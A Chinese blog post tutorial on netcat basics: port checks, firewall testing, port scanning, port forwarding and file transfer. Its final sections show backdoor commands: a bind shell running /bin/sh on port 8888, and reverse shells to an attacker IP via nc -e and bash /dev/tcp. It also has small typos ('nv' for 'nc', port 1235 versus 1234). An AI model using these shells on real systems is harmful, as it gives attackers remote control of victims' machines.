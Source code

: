 ```yaml
---
title: netcat基本使用
date: 2019-11-30 23:59:47
tags: linux
---
```


几个常用的方式。
<!--more-->

### 测试某个远程主机的监听端口是否可达

两种情况：

- 端口没有在监听；
- 在监听，被防火墙阻挡；

```shell
nv -nv -w 3 10.18.0.222 80
-w: 设置一个超时
-n: 不解析域名
-v：verbose
如果是udp的话加选项：‘-u’
```

### 判断防火墙是否“允许 or 禁止”某个端口

假设你在配置防火墙，禁止了某个端口，现在想判断配置是否生效。  
在主机运行：

```shell
nc -lv -p 8080
```

监听这个端口。
从另一台主机连接：

```shell
nc 10.10.10.10 8080
```

如果是udp的话，两边都要加-u选项。

在默认情况下，nc 开启 listen 模式充当服务端，在接受【第一次】客户端连接之后，就会把监听端口关闭。如果你想要让 nc 始终监听模式，使之能【重复】接受客户端发起的连接，可以追加 -k 选项。

### 做一个简单的端口扫描(也可以作为单个端口的扫描)

```shell
nc  -znv 199.19.111.30 1-1024
-z：开启“zero-I/O 模式”。该模式指的是：nc 只判断某个监听端口是否能连上，连上后不与对端进行数据通讯。
```

**说明：优化输出**

```shell
nc -znv x.x.x.x 1-1024  2>&1 | grep succeeded
```

上述命令中的 2>&1 用来把【stderr】合并到【stdout】

### 基于 nc 的端口转发（Port Forward)

1. 创建命名管道：  
`mkfifo nc_pipe`  

2. 同时启动两个nc:

```shell
nc -l -p 1234 < nc_pipe | nc 127.0.0.1 5678 > nc_pipe
```

运行上述命令之后，就可以把本机的 1235 端口重定向到本机的 5678 端口。  
持续开启用‘-k’选项。

### 用nc传输文件

在接收端执行：

```shell
nc -l -p 8888 > filename
```

在发送端执行：

```shell
nc 10.18.0.1 8888 < filename
```

### 用nc开启被动连接型后门

在被攻击者端：

```shell
nc -l -p 8888 -e /bin/sh
```

在攻击者端：

```shell
nc 10.18.0.1 8888
```

### 用nc开启主动连接型后门

服务端客户端对调
在攻击者端：

```shell
nc -lkp 8888
```

在被攻击者端：

```shell
nc -e /bin/sh 10.18.0.222 8888
```

或者：

```shell
bash -i >& /dev/tcp/10.18.0.222/8888 0>&1
```

这条命令连nc都不需要。
